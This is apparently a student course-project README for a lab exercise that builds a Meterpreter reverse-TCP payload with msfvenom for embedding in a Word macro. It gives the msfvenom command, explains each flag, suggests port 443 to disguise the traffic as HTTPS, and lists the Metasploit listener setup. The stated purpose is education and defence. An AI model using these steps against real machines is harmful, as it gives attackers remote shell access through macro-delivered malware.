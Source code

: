 # IT 359 Project
This project demonstrates how a reverse shell payload can be created using msfvenom and embedded into a Microsoft Word macro as a proof-of-concept for educational and defensive security purposes. The objective is to simulate a common attack technique used by threat actors to gain unauthorized access to a target system, with the ultimate goal of understanding how such threats operate, how to identify them, and how to effectively defend against them.   

By following the steps outlined in this project, readers will gain insight into:  
  
How attackers craft and deliver malicious payloads using social engineering.  
How Microsoft Office macros can be exploited for code execution.  
Techniques for detecting and mitigating macro-based malware threats in enterprise environments.        
Technologies used will include Weaviate(built in AI and machine learning integration), OpenAI, proxmox, kali and windows, microsoft word    

# Day One: Topic 
After adding Ben to the group a little later into the semester, I opened up the Idea to doing a project that was little more realistic for our group to complete. I really just used AI and the project prompt to get some suggestions. Ultimately went with the subject explained above. Also used AI to create an outline of each members responsibilities by giving it our topic, timeline and number of memebers.
- Looking back, it was great for a start, but we should have revised it to be a little more compatible with our group.  

# MSFVenom Payload  
AI suggested using MSFVenom to create the payload and after looking into it, I realized that it was implemented in metasploite which we have experience with and acess to on our proxmox VMs. 
This was the main website I used to research the flags and how to use them(reading the instruction in the terminal is a bit of a headache for me) https://www.offsec.com/metasploit-unleashed/msfvenom/  
  
### Ultimately the command I came up with was msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f vba.  
#### -p
- the flag to start creating a payload
##### "windows" to target a windows machine(any of the promox machines in our case)  
#### "meterpreter" is the interactive shell component
#### "reverse_tcp" makes the victim reach out to our attacking machine
#### LHOST will be our attacking machines IP(kali linux proxmox vm)
#### LPORT will be the port we have our listener setup on
- Can use 4444 which is the metasploit default
- Another option is 443 if we want to be sneaky and make it look like HTTPS traffic  
#### -f VBA
- f = format of the output
- vba = visual basic for applications format

# Setting up the Listener  
### Really simple setup on the kali VM  
- Ths provides background knowledge on msfconsole commands https://www.offsec.com/metasploit-unleashed/msfconsole-commands/

### In your terminal run each command
#### msfconsole
#### use exploit/multihandler
#### set payload windows/meterpreter/reverse_tcp  
#### set LHOST our kali IP
#### set Lport(same port as in the payload)  
#### run


